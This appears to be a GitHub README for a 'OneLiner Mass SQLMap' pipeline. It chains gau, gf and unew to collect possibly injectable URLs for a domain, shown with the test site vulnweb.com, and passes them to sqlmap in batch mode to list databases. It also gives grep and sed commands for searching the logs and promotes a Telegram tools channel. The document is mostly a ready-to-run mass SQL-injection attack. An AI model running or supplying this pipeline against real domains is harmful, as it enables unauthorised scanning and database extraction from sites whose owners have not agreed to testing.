

# OneLiner Mass SQLMap

## Tools
- <a href="https://github.com/sqlmapproject/sqlmap/">sqlmap</a>
- <a href="https://github.com/lc/gau">gau</a>
- <a href="https://github.com/tomnomnom/gf">gf</a>
- <a href="https://github.com/1ndianl33t/Gf-Patterns">gf-pattern</a> 
- <a href="https://github.com/dwisiswant0/unew">unew</a>
- grep
- sed

## One Liner Mass SQLMap

```
echo "vulnweb.com" | gau -subs -b jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,exe | gf sqli | unew >> sqliurls.txt; sqlmap -m sqliurls.txt --batch --dbs | tee -a sqlmap.txt
```

* All log result stored in sqlmap.txt


## Quick find SQLMap result 



** Show line number of logs *sqlmap.txt if get databases with grep keyword *available databases **
```
grep -n "available databases" sqlmap.txt
```

** Slice Output with sed **
```
sed -n 'fromLine,ToLinep' sqlmap.txt
```

Thanks :)
Ve

Follow me <a href="https://twitter.com/Verry__D">@Verry__D</a>
Subscribe Infosec Telegram Channel <a href="https://t.me/sec7or">Tools & Writeups</a>

